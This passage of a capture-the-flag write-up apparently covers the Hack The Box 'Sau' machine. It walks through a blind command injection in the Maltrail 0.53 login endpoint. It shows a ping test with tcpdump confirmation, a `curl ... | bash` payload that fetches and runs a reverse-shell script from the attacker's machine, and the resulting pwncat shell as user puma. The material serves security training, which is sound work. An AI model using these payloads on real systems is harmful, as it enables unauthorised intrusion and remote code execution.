 Since this is a _blind command injection_, I won't get any direct feedback from the server to see if my commands are working. To test it out, I'm going to try having the server ping my own computer.

```bash
> http POST 10.129.14.169:55555/ssrf_80_login username=';`ping -c 3 10.10.14.162`' -f
HTTP/1.1 401 Unauthorized
Connection: close
Content-Encoding: gzip
Content-Length: 38
Content-Type: text/plain
Date: Wed, 12 Jul 2023 10:19:37 GMT
Server: Maltrail/0.53

Login failed

```

And I can see ICMP packets being captured on my attack box using tcpdump

```bash
> _ tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
06:19:43.718093 IP 10.129.14.169 > 10.10.14.162: ICMP echo request, id 2, seq 1, length 64
06:19:43.718121 IP 10.10.14.162 > 10.129.14.169: ICMP echo reply, id 2, seq 1, length 64
06:19:44.719166 IP 10.129.14.169 > 10.10.14.162: ICMP echo request, id 2, seq 2, length 64
06:19:44.719186 IP 10.10.14.162 > 10.129.14.169: ICMP echo reply, id 2, seq 2, length 64
06:19:45.722948 IP 10.129.14.169 > 10.10.14.162: ICMP echo request, id 2, seq 3, length 64
06:19:45.722973 IP 10.10.14.162 > 10.129.14.169: ICMP echo reply, id 2, seq 3, length 64
```

The typical ways of getting a remote shell weren't working for some reason. I'm guessing it had to do with how the website was handling the commands I was injecting. To overcome this, I wrote the payload to a file and hosted it from my attack box, and subsequently executed it to get a shell as `puma`.

```bash
> http POST 10.129.14.169:55555/ssrf_80_login username=';`curl 10.10.14.162/revshell.sh | bash`' -f
```

```bash
> pc -lp 9005
[06:27:46] Welcome to pwncat 🐈!                                                                    __main__.py:164
[06:30:21] received connection from 10.129.14.169:53468                                                  bind.py:84
[06:30:25] 10.129.14.169:53468: registered new host w/ db                                            manager.py:957
(local) pwncat$
(remote) puma@sau:/opt/maltrail$ id
uid=1001(puma) gid=1001(puma) groups=1001(puma)

```

---
